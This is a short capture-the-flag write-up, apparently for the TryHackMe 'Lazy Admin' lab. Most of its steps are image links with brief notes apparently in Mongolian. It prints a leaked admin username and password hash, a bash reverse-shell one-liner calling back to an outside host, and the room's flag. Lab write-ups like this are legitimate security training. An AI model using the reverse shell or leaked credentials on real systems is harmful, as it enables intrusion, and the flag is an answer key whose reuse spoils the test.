# lazy admin 10.201.121.6












"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\ codenoos olson mur













shell iin code iig bash -c ' bash -i >& /dev/tcp/10.21.21.166/1234 0>&1' bolgoj zasaad flag aa awsan


THM{6637f41d0177b6f37cb20d775124699f}



